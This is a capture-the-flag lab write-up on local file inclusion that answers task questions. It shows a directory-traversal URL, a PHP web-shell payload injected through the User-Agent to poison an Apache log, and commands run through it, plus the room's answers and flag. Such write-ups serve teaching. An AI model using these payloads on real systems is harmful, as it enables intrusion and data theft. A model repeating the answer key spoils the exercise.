 # LFI Basics

Learn the basics of local file inclusion


## [Task 1] Local File Inclusion

### #4 What's the message you get when you include the home.html?
```
You included home.html
```

### #6 What user that it's not by default there is present?
```
lfi
```

## [Task 2] Local File Inclusion using Directory Traversal

### #2 Add the "?page=" parameter, and try to include the home page again. Does it work (Yes/No)?
```
no
```

### #3 What are the credit card numbers?
```
http://<IP>/lfi2/lfi.php?page=../creditcard

1111-2222-3333-4444
```

## [Task 3] Reaching RCE using LFI and log poisoning

### #4 Can you read the log (Yes/No)?
```
Yes
```

### #6 Give it a try and run uname -r. What's the output of the command?
```
http://<IP>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname -r

Note: I used Burp Suite and interceptted it. Modified the User-Agent section to add PHP code injection <?php system($_GET['lfi']) ?>

4.15.0-72-generic
```

### #7 With this knowledge read the flag from the lfi user home directory.
```
http://<IP>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat /home/lfi/flag.txt

THM{a352a5c2acfd22251c3a94105b718fea}
```




